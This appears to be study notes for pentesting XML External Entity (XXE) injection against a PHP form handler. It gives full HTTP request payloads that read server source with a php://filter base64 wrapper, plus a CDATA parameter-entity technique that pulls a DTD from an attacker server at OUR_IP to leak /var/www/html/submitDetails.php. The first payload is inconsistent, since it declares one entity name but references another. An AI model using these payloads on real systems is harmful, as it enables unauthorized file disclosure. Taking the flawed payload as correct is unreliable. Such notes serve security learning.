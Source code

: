 ### Read file contains some of XML's special characters
#### Read PHP files using PHP wrapper
Encode PHP source files, such that they would not break the XML format when referenced.
- **Request**
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [<!ENTITY company SYSTEM 
"php://filter/convert.base64-encode/resource=index.php">]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
* **Response**
``` HTTP
HTTP/1.1 200 OK

Check your email PCFET0NUWVBFIGh0bWw+DQo8aHRtbCBsYW5nPSJlbiI+DQoNCjxoZWFkPg0KCTx0aXRsZT5FbnRpdHkg
....
for further instructions.
[SNIP]....
```
#### Advanced Exfiltration with CDATA
To output data that does not conform to the XML format:
- Wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). and utilize XML Parameter Entities. 
- `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined.

- Attacker host
Create `xxe.dtd` with the content:
``` dtd
<!ENTITY joined "%begin;%file;%end;">
```
Start a python server:
``` bash
python3 -m http.server 8000
```
* Request to the target
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&joined;</email>    <!-- reference the &joined; entity to print the file content -->
	<message>123</message>
</root>
```
---